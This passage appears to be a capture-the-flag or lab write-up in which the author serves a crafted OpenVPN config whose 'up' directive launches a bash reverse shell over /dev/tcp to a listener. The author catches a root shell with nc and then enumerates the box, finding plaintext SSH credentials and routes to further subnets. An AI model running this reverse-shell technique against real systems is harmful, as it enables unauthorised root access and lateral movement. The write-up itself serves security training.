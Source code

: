 ```bash
HTTP/1.1 200 OK
Date: Fri, 13 Sep 2019 01:42:16 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Sun, 02 Sep 2018 14:21:46 GMT
ETag: "79-574e4250e6860"
Accept-Ranges: bytes
Content-Length: 121

remote 192.168.122.1
dev tun
nobind
script-security 2
up "/bin/bash -c 'bash -i >& /dev/tcp/192.168.122.1/2323 0>&1'"
```
If we just open a listener back on 122.1 the ubuntu machine and click the test VPN button can we get a shell from this box? Seems like we can.
```bash
dave@ubuntu:~/.gnupg$ nc -nlvp 2323
Listening on [0.0.0.0] (family 0, port 2323)
Connection from [192.168.122.4] port 2323 [tcp/*] accepted (family 2, sport 51184)
bash: cannot set terminal process group (1068): Inappropriate ioctl for device
bash: no job control in this shell
root@DNS:/var/www/html# id && uname -a
id && uname -a
uid=0(root) gid=0(root) groups=0(root)
Linux DNS 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:22:43 UTC 2018 i686 i686 i686 GNU/Linux
```
So we have a root shell on the DNS machine, what about the other firewall and the machine just marked "x"? Dave and Alex have accounts on this box as well, in the webserver we can see Dave's ssh creds for here and the user.txt file.
```bash
root@DNS:/var/www/DNS/desktop# ls -lah
ls -lah
total 12K
drwxrwxr-x 2 root root 4.0K Jul 17  2018 .
drwxrwxr-x 3 root root 4.0K Jul 17  2018 ..
-rw-rw-r-- 1 root root   19 Jul 17  2018 ssh
-rw-rw-r-- 1 root root    0 Jul 17  2018 user.txt
root@DNS:/var/www/DNS/desktop# cat ssh
cat ssh
dave
dav3gerous567
```
After that we see this interfaces file telling us about another subnet 192.168.5.0 with 122.5 the firewall box set as the gateway. 
```bash
root@DNS:/var/www/DNS# ls -lah
ls -lah
total 20K
drwxrwxr-x 3 root root 4.0K Jul 17  2018 .
drwxr-xr-x 4 root root 4.0K Jul 17  2018 ..
drwxrwxr-x 2 root root 4.0K Jul 17  2018 desktop
-rw-rw-r-- 1 root root  214 Jul 17  2018 interfaces
-rw-rw-r-- 1 root root   27 Jul 17  2018 visudo
root@DNS:/var/www/DNS# cat interfaces 
cat interfaces 
auto ens3
iface ens3 inet static
address 192.168.122.4
netmask 255.255.255.0
up route add -net 192.168.5.0 netmask 255.255.255.0 gw 192.168.122.5
up route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.28
root@DNS:/var/www/DNS# cat visudo
cat visudo
```